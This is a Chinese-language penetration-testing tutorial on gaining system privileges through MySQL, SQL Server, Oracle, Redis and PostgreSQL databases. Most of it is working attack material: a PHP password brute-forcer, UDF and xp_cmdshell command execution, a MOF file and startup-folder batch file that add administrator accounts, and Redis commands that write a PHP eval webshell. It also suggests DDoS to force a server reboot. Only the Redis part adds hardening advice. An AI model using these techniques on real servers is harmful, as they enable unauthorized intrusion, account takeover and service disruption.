



# 数据库提权


在利用系统溢出漏洞无果的情况下，可以采用数据库进行提权。

数据库提权的前提条件：服务器开启数据库服务以及获取到最高权限用户密码。

除Access数据库外，其他数据库基本上都存在数据库提权的可能。

其中数据库提权最重要的是，获取数据库最高权限的密码：

1. 数据库提权，权限用户密码收集的方法：配置文件、存储文件、暴力猜解、其它方式

# MySQL数据库

流程：服务探针-信息收集-提权利用-获取权限。

## 服务探针

namp探测主机操作系统、端口服务，版本信息（nmap -sV -O ip），发现开启了MySQL服务。


上传大马


## 信息收集

要使用数据库提权，就必须要数据库最高权限的密码，MySQL的最高权限的用户名为root，尝试获取root的密码。

重点查看带有关键字的配置文件，常见的关键字有sql、data、inc、config、conn、database、common、include等。

在实战中，即使你找到了配置文件，系统也不一定用的是root用户。

也可以读取备份文件，通过访问IP获得根目录下的网站备份源码，下载源码，通过源码，读取数据库配置文件。 

**方法1：读取网站数据库配置文件**


**方法2：读取数据库存储或备份文件**

首先，要了解一下MySQL数据库存储格式及对应内容，网站数据库的存储文件。

```mysql
@@basedir/data/数据库名/表名.myd # 表名.myd文件中的内容对应的就是表的内容,其中@@basedir就是数据库的安装目录
```


相应的，mysql数据库的密码存储在MySQL数据库下面的user表，这是管理数据库的用户密码。



可以对得到的MySQL进行暴力破解。


**方法3：利用脚本暴力猜解**

**不支持外连**

获取数据库最高权限密码，一般我们使用前两种方法居多，如果前两种方法实在用不了，我们才考虑使用暴力猜解。暴力猜解之前，需要先了解数据库是否支持外联以及如何开启外联。

- 若数据库支持外联，可以远程本地暴力猜解；
- 若数据库不支持外联，可以服务器本地暴力猜解。

但是，其实root账户一般是不支持外联的，所以没法使用工具进行本地暴力猜解，但是我们可以将脚本通过webshell上传到服务器，在服务器本地使用脚本暴力猜解。

暴力破解脚本。

```php
<html>
 <head>
  <title>Mysql账号密码在线爆破工具</title>
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
 </head>
 <body>
  <center>
   <br><br>
   <h1>Mysql账号密码在线爆破工具 V2.0</h1>
  <br>
<?php
 if(@$_POST['submit']){
   $host = @$_POST['host'];
   if($host!==""){
    $username = "root";//用户名字典
	$password = array();
	$filename = "pwd.txt"; //同目录下密码字典
	$i=0;
	$file = fopen($filename,'r');
	while(! feof($file)){
		$password[$i] = fgets($file);
		$i++;
	}
	fclose($file);
    echo "<hr><br>-----------------------爆破状态-----------------------<br>";
    for ($l=0; $l <= count($password); $l++) {
		$password1 = trim($password[$l]);	//除去左右空白
		if(@mysql_connect($host, $username, $password1)){
			echo "<script>alert('数据库密码为：{$password1}')</script>";
			echo "<br><br><font color='red'>爆破成功--密码-->".@$password1."</font>";
			break;
		}else{
			continue;
		}
    }
    echo "<br>----------------------爆破结束-----------------------<br><hr>";
   }else{
    echo "<script>alert('黑客，输入数据库IP地址')</script>";
   }
 }
?>
<br><br><br><br>
  <form action="Completion.php" method="post">
   数据库IP地址:<input type="text" name="host"/>
   <input type="submit" value="爆破" name="submit"/>
  </form>
<center>
</body>
</html>
```

用法：保存为Completion.php文件，将密码字典放置同目录下为pwd.txt文件，浏览器打开就可使用。


爆破成功。


**支持外连**

**数据库外联的命令**

**方法1：授权法**

```mysql
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY '密码' WITH GRANT OPTION; # %是支持所有的ip地址,可以自定义ip,这是授权法
```

**放法2：改表法**

```mysql
update user set host = '%' where user = 'root'; # 
select host, user from user; # 查询是否生效
```

无论使用哪种方法最后都要执行这个命令。

```mysql
FLUSH PRIVILEGES; # 回车使刚才的修改生效,再次远程连接数据库成功。
```

数据库支持外联，使用msf工具远程本地暴力猜解。

打开Metasploit，搜索对应的payload，进行使用。


通过`show options`查看对应payload的攻击载荷，进行设置。


设置对应的攻击载荷，攻击成功。


命令总结

```bash
msfconsole
search mysql # 搜索payload
use auxiliary/scanner/mysql/mysql_login # 使用对应payload
show options # 查看参数设置
set rhost 攻击的ip
set username 攻击的用户
set pass_file 攻击的字典
show options 
exploit # 进行攻击
```

## 提权利用

### UPF提权

UDF （User Defined Function，用户自定义函数）：基于MYSQL调用命令执行函数。

这里的自定义函数要以dll形式写成mysql的插件，提供给mysql来使用。也就是说我们可以通过编写dll文件来实现我们需要的功能。利用UDF提权需要知道root账户的密码，并且需要目标系统是Windows。可以使用现成的udf提权工具，也可以手工测试。

在MySQL高版本中secure-file-priv参数限制了MySQL的导出：

1. NULL，表示禁止

2. 如果value值有文件夹目录，则表示只允许该目录下文件（子目录都不行）

3. 如果为空(没有值)，则表示不限制目录

mysql版本不同，UDF导出目录也会有所不同。

1. mysql<5.1 导出到c:/windows或system32目录

2. mysql>=5.1 导出到安装目录/lib/plugin（mysql初始安装时，plugin目录默认不存在，需要我们自己创建，Linux也可以用，现在市面上的数据库基本都是5.1版本以上的）。

select version()：查看版本


执行select @@basedir;语句，获取mysql的安装路径。



可以直接进入安装目录/lib/下查看plugin是否存在（或者执行`show variables like '%plugin%';`语句查看，当然也可以使用select @@plugin_dir来查看，但是这种知识查看出来文件位置，并不能查看出文件是否存在）。


如果plugin目录不存在，需要手工创建plugin目录或利用NTFS流创建。

手工创建。


使用用NTFS流创建，没有创建成功，需要修改my.ini文件，比较麻烦，需要添加`secure_file_priv=''`

```mysql
select 'x' into dumpfile '目录/lib/plugin::INDEX_ALLOCATION';
```

导出dll文件进行命令执行，修改`php.ini`中`secure_file_priv=''`为空，不然不能导入文件，如果脚本没法导出udf文件，也可以手动将该文件复制到plugin文件夹下，也可以手工导入：

```mysql
select load_file('udf.dll文件位置') into dumpfile "导入的plugin文件夹位置"
```

使用脚本导入。




创建shell函数，创建完成后即可执行命令，也可以手动创建函数。

```mysql
create function cmdshell returns string soname 'udf.dll' # 创建函数
select cmdshell('执行的系统命令'); # 执行系统命令
drop function cmdshell; # 删除函数 
delete from mysql.func where name='cmdshell' # 删除函数
```

当然使用udf马进入操作，执行成功。


### MOF提权

这个是，基于MySQL特性的安全问题，成功率低。

导出自定义mof文件到系统目录加载。

**mof提权的原理：**

mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做"托管对象格式"其作用是每隔五秒就会去监控进程创建和死亡。

方法就是用了mysql的root权限了以后，然后使用root权限去执行我们上传的mof。隔了一定时间以后这个mof就会被执行。

这个mof当中有一段是vbs脚本，这个vbs大多数的是cmd的添加管理员用户的命令。

1. 导出自定义 mof 文件到系统目录加载

2. 同udf一样需要手工修改my.ini配置文件，添加 `secure_file_priv=''`

**以下是mof提权的过程：**

将mof上传至任意可读可写目录下，一般为网站根目录，命名为`user_add.mof`。

然后使用sql语句将系统当中默认的nullevt.mof给替换掉。进而让系统执行我们这个恶意的mof文件。

替换的sql语句：

```mysql
select load_file('所上传的mof文件') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';
```

mof文件代码如下所示：

```vbscript
#pragma namespace("\\\\.\\root\\subscription") 

instance of __EventFilter as $EventFilter 
{ 
    EventNamespace = "Root\\Cimv2"; 
    Name  = "filtP2"; 
    Query = "Select * From __InstanceModificationEvent " 
            "Where TargetInstance Isa \"Win32_LocalTime\" " 
            "And TargetInstance.Second = 5"; 
    QueryLanguage = "WQL"; 
}; 

instance of ActiveScriptEventConsumer as $Consumer 
{ 
    Name = "consPCSV2"; 
    ScriptingEngine = "JScript"; 
    ScriptText = 
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add\")"; 
	' 这一段命令就是添加一个用户。
}; 

instance of __FilterToConsumerBinding 
{ 
	Consumer = $Consumer; 
    Filter = $EventFilter; 
};
```

查找之后发现系统没有这个mof文件。


成功上传。


等待一会，发现执行失败了，成功率低。


### 启动项提权

配合操作系统自启动，**导出自定义可执行文件**到**启动目录**配合重启执行。

将创建好的后门或执行文件进行服务器启动项写入，配合重启执行！

打开系统启动路径：在`windows server 2012`，打开文件夹`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`。


创建自启动文件`user_add.bat`，在文件中写入`net user admin admin@123456 /add`，当然也可以通过SQL

语句将文件放入到启动项中，`select load_file('源文件') into dumpfile '目标启动文件';`


重启计算机，发现admin用户创建成功。


可以启动项+MSF生成后门进行，进行提权，需要开启数据库外连，与上面的bat思路一致。

如果mysql数据库没有开启外联，当我们拿到数据库最高权限后，可以执行SQL自行开启外联。

```mysql
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY '密码' WITH GRANT OPTION;
```

由于上传目录为启动目录，当服务器重启时，就会加载执行。

那如何让服务器重启呢？一般就是DDOS攻击，将对方的流量打空。之后还可以使用Cobalt Strike继续后续的工作。

### 反弹shell提权

基于利用反弹特性命令执行。

首先，执行命令`nc -vv -l 端口号`监听端口。


l链接成功。


# Mssql数据库

流程：服务探针-信息收集-提权利用-获取权限

## 提权利用

### xp_cmdshell进行提权

由于SQLServer默认支持外联，可以本地通过SqlServer2008客户端使用sa账户密码连接。也可以使用Navicat连接，但是推荐用官方的。


启用xp_cmdshell：

xp_cmdshell默认在SQLServerl2000中是开启的，在SQLServer2005之后的版本中则默认禁止。如果用户拥有管理员sa权限则可以用sp_configure重新开启它。

通过`xp_cmdshell`执行命令`whoami`命令：`EXEC master.dbo.xp_cmdshell 'whoami'` 。

```sql
EXEC master.dbo.xp_cmdshell '命令'
```


这里没有开启xp_cmdshell，所以没有执行成功。

通过sp_configure开启xp_cmdshell（1就是开启，0是关闭）

```sql
启用：
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
 
关闭；
exec sp_configure 'show advanced options',1 ；
reconfigure;
exec sp_configure 'xp_cmdshell',0;
reconfigure;
```


接下来，就可以执行任意命令了。

```sql
EXEC master.dbo.xp_cmdshell 'whoami';
```

但是这个不是system权限，经过测试法线这个权限是不允许创建用户的。


如果xp_cmdshell被删除了，可以上传xplog70.dll进行恢复。

```sql
exex master.sys.sp_addextendedproc 'xp_cmdshell','C:\Program Files\Microsoft SQL Server\MSSQL10_50.MSSQLSERVER\MSSQL\Binn\xplog70.dll'
```

### sp_oacreate进行提权

主要是用来调用OLE对象，利用OLE对象的run方法执行系统命令。

执行下面的命令，发现是关闭状态。

```sql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null, 'c:\windows\system32\cmd.exe /c whoami >C:\\1.txt'
```


```sql
启用：
EXEC sp_configure 'show advanced options',1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures',1;
RECONFIGURE WITH OVERRIDE;
 
关闭：
EXEC sp_configure 'show advanced options',1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures',0;
RECONFIGURE WITH OVERRIDE;
```

开启sp_oacreate。


```sql
执行命令
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c 执行的命令 > 输出的结果'

eg：执行whoami查看权限：
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\\1.txt'
```

但是，这个结果没有输出，明显是，执行失败了，去执行添加用户的命令，也失败了。


### SqlServer沙盒提权

依次执行下列sql语句：

提权语句

```sql
exec sp_configure 'show advanced options',1;reconfigure;
```


不开启的话在执行xp_regwrite会提示让我们开启。

```sql
exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;
```


关闭沙盒模式，如果第一次执行全部代码有问题，先执行上面两句代码。

```sql
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;
```


查询是否正常关闭，经过测试发现沙盒模式无论是开，还是关，都不会影响我们执行下面的语句。

```sql
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'
```


执行系统命令

```sql
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("要执行的系统命令")')
```

进行用户的添加：

```sql
select * from openrowset ('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user margin margin /add")')
```

命令执行失败。


沙盒模式SandBoxMode参数含义：

0：在任何所有者中禁止启用安全模式

1：为仅在允许范围内

2：必须在access模式下（默认是2）

3：完全开启

openrowset是可以通过OLE DB访问SQL Server数据库，OLE DB是应用程序链接到SQL Server的的驱动程序。

恢复配置，解除沙盒模式：

第一步：

```sql
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1;
```

第二步：

```sql
exec sp_configure 'Ad Hoc Distributed Queries',0;reconfigure;
```

第三步：

```sql
exec sp_configure 'show advanced options',0;reconfigure;
```

# Oracle数据库

补充：Oracle数据库管理员账号是DBA。

Oracle一般就是使用工具了。

1、普通用户模式：

前提是拥有一个普通的Oracle连接账号。不需要DBA权限，可提权至DBA，并以Oracle实例运行的权限执行操作系统命令。

2、DBA用户模式：

拥有DBA账号密码，可以省去自己手动创建存储过程的繁琐步骤，进行测试，如果没有密码，但是有注入点，可以进行注入提权。

3、注入提升模式：

拥有一个Oracle注入点，可以通过注入点直接执行系统命令，此种模式没有实现回显，需要自己验证。

SQLmap判断数据库是不是dba权限。

```sqlmap
sqlmap.py -u http://ip:端口/sql.jsp?id=1 --is-dba
```

说明：对于JSP网站，当前获取到它的网站权限后，不需要提权。因为它的网站权限就是系统权限，jsp自带system。因为一般Oracle数据库会和jsp搭配使用，所以当你拥有一个注入点时，你会发现，这个注入点本身就拥有system权限。

# Redis数据库

redis基本命令

连接redis

```
redis-cli -h 192.168.63.130
```

查看redis版本信息、一些具体信息、服务器版本信息等等：

```
ip:6379>info
```

将变量x的值设为test：

```
ip:6379>set x "test"
```

是把整个redis数据库删除，一般情况下不要用！！！

```
ip:6379>flushall
```

查看所有键：

```
ip:6379>KEYS *
```

获取默认的redis目录、和rdb文件名：可以在修改前先获取，然后走的时候再恢复。

```
ip:6379>CONFIG GET dir
ip:6379>CONFIG GET dbfilename
```

修改配置文件，使可以远程访问，`bind 127.0.0.1`前面加上`#`号或者设置为`0.0.0.0`支持其他`ip`地址访问，`protected-mode`设为`no`。


Redis服务因配置不当，可被攻击者恶意利用，造成未授权访问。攻击者无需认证访问到内部数据，可导致敏感信息泄露，也可以恶意执行flushall来清空所有数据。

攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件。 

如果Redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器。

默认的配置是使用6379端口，没有密码。这时候会导致未授权访问然后使用redis权限写文件。

## 计划任务执行命令反弹shell

## 写入ssh-keygen公钥然后使用私钥登陆

## 权限较低往web物理路径写webshell

当redis权限不高，并且服务器开着web服务，在redis有web目录写权限时，可以尝试往web路径写webshell。


```sql
redis-cli -h 192.168.223.132 # 连接redis
config set dir /var/www/html/ # web目录
config set dbfilename shell.php # 定义文件名
set x "<?php eval(@$_POST['a']); ?>" # 写入内容
save # 对其保存
```

接下来就可以，使用后门工具进行连接。

## 修复方案

注意：以下操作，均需重启 Redis 后才能生效。

绑定需要访问数据库的 IP：将127.0.0.1修改为需要访问此数据库的IP地址。

设置访问密码：在 Redis.conf 中 requirepass 字段后，设置添加访问密码。

修改 Redis 服务运行账号：以较低权限账号运行 Redis 服务，禁用账号的登录权限。

1. 禁止一些高危命令（重启redis才能生效)

   ```yaml
   修改 redis.conf 文件，禁用远程修改 DB 文件地址
       rename-command FLUSHALL ""
       rename-command CONFIG ""
       rename-command EVAL ""
   或者通过修改redis.conf文件，改变这些高危命令的名称
       rename-command FLUSHALL "name1"
       rename-command CONFIG "name2"
       rename-command EVAL "name3"
   ```

2. 以低权限运行 Redis 服务（重启redis才能生效）

   为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆

   ```yaml
   groupadd -r redis && useradd -r -g redis redis
   ```

3. 为 Redis 添加密码验证（重启redis才能生效）

   修改 redis.conf 文件，添加

   ```yaml
   requirepass mypassword
   ```

   注意redis不要用-a参数，明文输入密码，连接后使用auth认证。

4. 禁止外网访问 Redis（重启redis才能生效）

   修改 redis.conf 文件，添加或修改，使得 Redis 服务只在当前主机可用

   ```yaml
   bind 127.0.0.1
   ```

   在redis3.2之后，redis增加了protected-mode，在这个模式下，非绑定IP或者没有配置密码访问时都会报错。

5. 修改默认端口

   修改配置文件redis.conf文件

   ```yaml
   Port 6379
   ```

   默认端口是6379，可以改变成其他端口（不要冲突就好）

6. 保证 authorized_keys 文件的安全

   为了保证安全，您应该阻止其他用户添加新的公钥。将 authorized_keys 的权限设置为对拥有者只读，其他用户没有任何权限：

   ```yaml
   chmod 400 ~/.ssh/authorized_keys
   ```

   为保证 authorized_keys 的权限不会被改掉，您还需要设置该文件的 immutable 位权限:

   ```yaml
   chattr +i ~/.ssh/authorized_keys
   ```

   然而，用户还可以重命名 ~/.ssh，然后新建新的 ~/.ssh 目录和 authorized_keys 文件。要避免这种情况，需要设置 ~./ssh 的 immutable 权限：

   ```yaml
   chattr +i ~/.ssh  
   ```

7. 设置防火墙策略

   如果正常业务中Redis服务需要被其他服务器来访问，可以设置iptables策略仅允许指定的IP来访问Redis服务。  

# PostgreSQL数据库

PostgreSQL数据库的管理员账户是`postgresql`。

PostgreSQL是关系型数据库，其`9.3`到`11`版本中存在一处"特性"，管理员或具有"`COPY TO`/`FROM PROGRAM`"权限的用户，可以使用这个特性执行任意命令。

流程：连接-->利用漏洞-->执行-->提权

提权利用的是漏洞：

- CVE-2019-9193
- CVE-2018-1058

## CVE-2019-9193

PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处"特性"，管理员或具有"COPY TO/FROM PROGRAM"权限的用户，可以使用这个特性执行任意命令。

## CVE-2018-1058

PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

## 修复方案

升级版本或打上补丁
